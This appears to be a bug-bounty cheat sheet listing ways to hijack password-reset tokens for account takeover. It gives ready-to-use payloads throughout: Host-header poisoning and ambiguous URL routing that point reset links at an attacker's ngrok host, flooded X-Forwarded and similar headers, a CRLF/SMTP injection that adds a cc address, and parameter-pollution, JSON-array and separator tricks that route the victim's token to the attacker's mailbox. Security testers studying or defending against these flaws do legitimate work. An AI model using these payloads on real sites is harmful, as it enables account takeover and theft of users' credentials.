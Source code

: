**Token leak via Referer header:**
1. Click on forgot password and capture it in burp
2. set the referer header to your ngrok
3. check the email and see if it is from ngrok

**Token leak via Host header:**
1. Change `Host:` header value to ngrok.io link

**Override Host Header:**
1. Change `/resetPassword` to `https://company.com/resetPassword`
2. Change `Host:` value to ngrok.io link

**Ambiguate The Host header:**
- Change `Host:` value to company.com@ngrok.io
or
- Change `Host:` value to comany.com:@ngrok.io
or
- Change `Host:` value to comany.com: ngrok.io

**Change routing of the request**
- Change URL to `POST @ngrok.io/resetPassword`
or 
- Change URL to `POST :@ngrok.io/reserPassword`
or
- Change URL to `POST @ngrok.io/resetPassword#`
or
- Change URL to `POST /resetPassword@ngrok.io#`

**Add another Host header**
1. Add one more `Host:` header into request with value ngrok.io
or
- Add the same but with a space ` Host:` and value is ngrok.io

**X Forward For**
- Change `Host:` value to ngrok.io
- Add `X-Forward-Host: ngrok.io` header.

or 
- Change `Host: ngrok.io` value to ngrok.io
- Add `X-Forward-Host: company.com` header.

**X-Forward-For + Referer header:**

- Add `X-Forward-For: ngrok.io`
- Add `Referer: https://ngrok.io`

**Use Non-Standard Headers**
Just flood the request by these headers.
```
X-Forward-For: ngrok.io
X-Forward-Host: ngrok.io
X-Client-IP: ngrok.io
X-Originating-IP: ngrok.io
X-WAP-Profile: https://ngrok.io/file.xml
True-Client-IP: ngrok.io
Referer: https://ngrok.io
```
or 
Use encoded IP eg: 0177.1
```
X-Forward-For: 0177.1
X-Forward-Host: 0177.1
X-Client-IP: 0177.1
X-Originating-IP: 0177.1
X-WAP-Profile: https://0177.1/file.xml
True-Client-IP: 0177.1
Referer: https://0177.1
```
or 
```
X-Forward-For: www.company.com@ngrok.io
X-Forward-Host: www.company.com@ngrok.io
X-Client-IP: www.company.com@ngrok.io
X-Originating-IP: www.company.com@ngrok.io
X-WAP-Profile: https://www.company.com@ngrok.io/file.xml
True-Client-IP: www.company.com@ngrok.io
Referer: https://www.company.com@ngrok.io
```
or 
```
X-Forward-For: ngrok.io/.company.com
X-Forward-Host: ngrok.io/.company.com
X-Client-IP: ngrok.io/.company.com
X-Originating-IP: ngrok.io/.company.com
X-WAP-Profile: https://ngrok.io//.company.com/file.xml
True-Client-IP: ngrok.io/.company.com
Referer: https://ngrok.io/.company.com
```

**Use Param Miner or x8**
https://mokhansec.medium.com/full-account-takeover-worth-1000-think-out-of-the-box-808f0bdd8ac7

**Burp collaborator/ Interacct.sh**
1. SignUp with me@gmail.com.id.burpcollaborator.net
2. Send resetpassword request
3. Check the collabrator.
[Blog realted to this issue](https://0xayub.gitbook.io/blog/)

**CRLF and SMPT Injection**
1. Change email parameter value to `victim@gmail.com%0a%0dcc:ngrok.io@gmail.com`

**Try using parameter pollution technique**
1. i.e : `victim@gmail.com&email=me@gmail.com` to recieve token on your mail.

**Content Type Header To application/json**
- Change `Content-Type:` header to application/json.
- Send a array `{"email":["victim@gmail.com","me@gmail.com"]}`

**Use of seperators**
- Use `|`, `%20` or `,` to recieve token on mail.
- Change `email=` parameter to `victim@gmail.com,me@gmail.com`
- Change `email=` parameter to `victim@gmail.com,me%20gmail.com` 
- Change `email=` parameter to `victim@gmail.com,me|gmail.com`

**Expose token in Response:**
- Change `email=` to `me` inteal of `me@gmail.com`

